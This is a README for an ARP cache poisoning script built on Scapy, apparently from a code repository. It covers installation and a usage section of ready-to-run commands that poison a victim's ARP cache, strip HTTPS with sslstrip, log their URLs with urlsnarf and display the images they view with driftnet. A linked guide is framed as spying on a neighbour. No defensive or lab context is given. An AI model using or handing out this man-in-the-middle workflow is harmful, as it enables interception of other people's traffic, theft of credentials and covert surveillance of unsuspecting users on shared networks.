 # arpspoof.py

This script uses Scapy to perform a simple Arp Cache Poisoning attack.

## Setup

First install system dependencies:

	# Fedora 22/23
	sudo dnf install python python-devel python-pip

	# Fedora 21/20/19/18 and CentosOS/REHL 7.1
	sudo yum install python python-devel python-pip

	# Ubuntu/Debian/Backtrack/Kali
	sudo apt-get install python python-dev python-pip

Then install Scapy:

	sudo pip install scapy

## Additional Tools

Here are some other cool tools that you can use once you have run the script
and created a MITM.

__sslstrip__

https://github.com/moxie0/sslstrip

__driftnet__

http://null-byte.wonderhowto.com/how-to/hack-like-pro-use-driftnet-see-what-kind-images-your-neighbor-looks-online-0154253/

__dsniff__

http://www.monkey.org/~dugsong/dsniff/

## Usage

To perform an arp cache poisoning attack against victim with ip address 192.168.2.75 with
gateway 192.168.2.1 (with interface wlan0):

	python arpspoof.py -i wlan0 -g 192.168.2.1 -t 192.168.2.75

Once you have a MITM, you can downgrade HTTPS traffic to HTTP by running sslstrip in another terminal:

	sslstrip -l 10000

To monitor the victim's web traffic in real time, use urlsnarf (part of dsniff) in another
temrinal:

	urlsnarf -i wlan0

To view all images currently being viewed by the victim, use driftnet in another terminal:

	driftnet

Stop attack by hitting ctrl+c in your arpspoof.py terminal then closing out of all other tools.
